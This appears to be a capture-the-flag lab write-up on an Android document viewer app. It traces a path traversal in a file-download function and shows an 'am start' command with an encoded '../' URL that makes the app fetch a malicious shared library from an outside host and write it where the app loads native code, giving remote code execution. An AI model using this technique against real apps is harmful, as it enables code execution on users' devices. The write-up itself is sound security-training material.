



# Analysis
1. The app is load and render PDF file that chosen by the user.

2. The application `MainActivity.onCreate` is call 2 function.


3. The `handleIntent` is make the application able to received incoming `Intent` with action `android.intent.action.VIEW` and when the user try open PDF file from file manager or other app, this app will able to chose as pdf viewer.


4. The `loadProLibrary` is loaded shared object `libdocviewer_pro.so` inside app path `/data/data/com.mobilehackinglab.documentviewer/files/native-libraries/` and if the shared object is successfully loaded, it will set `proFeaturesEnabled` to `true`.


5. Inside the shared object `libdocviewer_pro.so`, we assumed there is a function named `initProFeatures` that will be called if `libdocviewer_pro.so` is successfully loaded, because there is constructor for this function but not exists in any class.


6. `handleIntent` function is called function `copyFileFromUri` from class `CopyUtil`, this function is to download file from Uri provided from `Intent` with specified content type `application/pdf` and saved as "download.pdf" if at the end url is not a filename with extension in it.


7. Inside `copyFileFromUri` is called function `CopyUtil$Companion$copyFileFromUri$1` which will created directory if the directory from uri provided from `Intent` is not exists.


8. Function `copyFileFromUri` is vulnerable to `path traversal` becaused it's not sanitized the Uri path that provided user using `Intent`, which allow attacker to craft uri to download file malicious file.


9. Based on the analysis, we know to gained RCE is by creating malicious shared object and download the shared object file using function `copyFileFromUri` which can triggered using `Intent` and write to the path that will loaded by function `loadProLibrary.so`

# Exploitation
1. First time run the application, we can see the application is try to load library `libdocviewer_pro.so`.


2. First created our malicious shared object in `Android Studio` with the code c++ as below.


3. Build the shared object by navigate to Build > Make Project and copy the builded so file into folder `www`.

4. To trigger `Intent` we use `am` command with malicious url that exploit the path traversal.
```sh
am start -a android.intent.action.VIEW -d "http://192.168.188.200:5000/..%2f..%2f..%2f..%2f..%2f..%2f..%2fdata%2fdata%2fcom.mobilehackinglab.documentviewer%2ffiles%2fnative-libraries%2farm64-v8a%2flibdocviewer_pro.so" -t application/pdf
```

5. But first, we create an HTTP server using Python Flask that returns the malicious shared object we just created, regardless of the path requested by the client.


6. After run the `am` command in adb shell, chose the app.


7. After successfully download our malicious shared object, in adb log will show error render pdf file that navigated to our exploit shared object path, which mean the application is success to download the file and write to path based on our payload.


8. Rerun the application, and we'll see our malicious shared object is successfully loaded.


9. And check in app path and the system command successfully executed and created file based on our code for the shared object file.

